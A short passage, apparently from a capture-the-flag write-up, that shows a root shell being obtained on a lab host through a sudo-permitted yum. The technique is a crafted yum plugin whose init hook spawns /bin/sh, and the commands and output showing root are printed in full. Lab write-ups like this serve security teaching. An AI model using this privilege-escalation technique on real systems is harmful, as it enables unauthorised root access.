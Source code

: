 ```
> def init_hook(conduit):
>   os.execl('/bin/sh','/bin/sh')
> EOF
[jjameson@dailybugle /]$ sudo yum -c $TF/x --enableplugin=y
Loaded plugins: y
No plugin match for: y
sh-4.2# whoami
root
sh-4.2# 
```

And root shell is accessed.
